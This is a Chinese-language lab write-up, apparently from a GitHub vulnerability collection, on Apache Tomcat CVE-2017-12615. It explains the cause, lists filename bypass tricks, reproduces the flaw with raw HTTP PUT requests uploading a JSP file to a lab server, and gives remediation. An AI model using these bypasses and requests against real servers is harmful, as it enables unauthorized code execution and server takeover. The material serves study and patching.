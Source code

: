 #### CVE-2017-12615

##### 漏洞描述

远程代码执行漏洞(CVE-2017-12615)。当存在漏洞的Tomcat 运行在 Windows 主机上，且启用了HTTP PUT请求方法（例如，将 readonly 初始化参数由默认值设置为 false），攻击者将有可能可通过精心构造的攻击请求数据包向服务器上传包含任意代码的 JSP 的webshell文件，JSP文件中的恶意代码将能被服务器执行，导致服务器上的数据泄露或获取服务器权限。

##### 影响范围

Apache Tomcat 7.0.0 – 7.0.79

##### 漏洞原理

启用了HTTP PUT请求方法（例如，将 readonly 初始化参数由默认值设置为 false）,可任意上传恶意文件至服务器端

默认`readonly`为`true`，也就是无法进行PUT、DELETE行为

````
conf/web.xml		//文件内容
````

![image-20200813095843352](https://github.com/si1ent-le/vuln-all/blob/master/Tomcat_vuln/CVE-2017-12615/images//image-20200813095843352.png)

这个CVE漏洞涉及到 DefaultServlet，DefaultServlet作用是处理静态文件，同时DefaultServlet可以处理PUT或DELETE请求，默认配置如图2：

![image-20200813100218371](https://github.com/si1ent-le/vuln-all/blob/master/Tomcat_vuln/CVE-2017-12615/images//image-20200813100218371.png)

可以看出即使设置readonly为false,默认tomcat也不允许PUT上传jsp和jspx文件，因为后端都用org.apache.catalina.servlets.JspServlet来处理jsp或是jspx后缀的请求，而JspServlet负责处理所有JSP和JPSX类型的动态请求，从代码没有发现处理HTTP PUT类型的操作, 所以可知PUT以及DELTE等HTTP操作由DefautServelt实现。因此，就算我们构造请求直接上传JSP webshell显然是不会成功的。该漏洞实际上是利用了windows下文件名解析的漏洞来触发的。根本是通过构造特殊后缀名，绕过Tomcat检测，让Tomcat用DefaultServlet的逻辑处理请求，从而上传jsp webshell文件。

绕过方式：

Windows：  
1、利用/shell.jsp::$DATA的方式绕过  
2、/shell.jsp%20，空格绕过  
3、/shell.jsp/ ， Tomcat在处理文件时会删除最后的/  
Linux：  
1、/shell.jsp/ ， Tomcat在处理文件时会删除最后的/

##### 漏洞条件

`readonly`设置为`false`时会导致攻击者上传任意恶意文件。

##### 漏洞检测

漏洞环境使用[P牛docker](https://github.com/vulhub/vulhub/tree/master/tomcat/CVE-2017-12615)镜像验证。

Tomcat version: 8.5.19

将readonly参数设置为false时，即可通过PUT方式创建一个JSP文件，并可以执行任意代码。修改部分如下。

1、readonly默认值为true，手动将其改为false，在`conf/web.xml`中手动添加红色方框类内容。

添加如下：

```xml
				<init-param> 
            <param-name>readonly</param-name> 
            <param-value>false</param-value> 
        </init-param>
```

![image-20200813100605923](https://github.com/si1ent-le/vuln-all/blob/master/Tomcat_vuln/CVE-2017-12615/images//image-20200813100605923.png)

2、修改请求头并传递post数据

```
PUT /shell.jsp HTTP/1.1
Host: 192.168.3.49:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 5

shell
```

![image-20200813131648712](https://github.com/si1ent-le/vuln-all/blob/master/Tomcat_vuln/CVE-2017-12615/images//image-20200813131648712.png)

由上图看到提示404，说明JspServlet负责处理所有JSP和JPSX类型的动态请求，不能够处理PUT方法类型的请求。会被过滤掉。

此时可以利用上面介绍的绕过方式

利用文件解析漏洞采用PUT方式上传jsp webshell文件。其中文件名设为/shell.jsp/。（如果文件名后缀是空格那么将会被tomcat给过滤掉。）

```
PUT /shell.jsp/ HTTP/1.1
Host: 192.168.3.49:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 5

shell
```

下图所示修改shell.jsp/即可上传成功

![image-20200813131744168](https://github.com/si1ent-le/vuln-all/blob/master/Tomcat_vuln/CVE-2017-12615/images//image-20200813131744168.png)

文件访问

![image-20200813133423171](https://github.com/si1ent-le/vuln-all/blob/master/Tomcat_vuln/CVE-2017-12615/images//image-20200813133423171.png)

shell管理

![image-20200813134428832](https://github.com/si1ent-le/vuln-all/blob/master/Tomcat_vuln/CVE-2017-12615/images//image-20200813134428832.png)

##### 漏洞修复

1、删除web.xml文件中readonly属性的值为true或直接删除

2、更新至官方最新

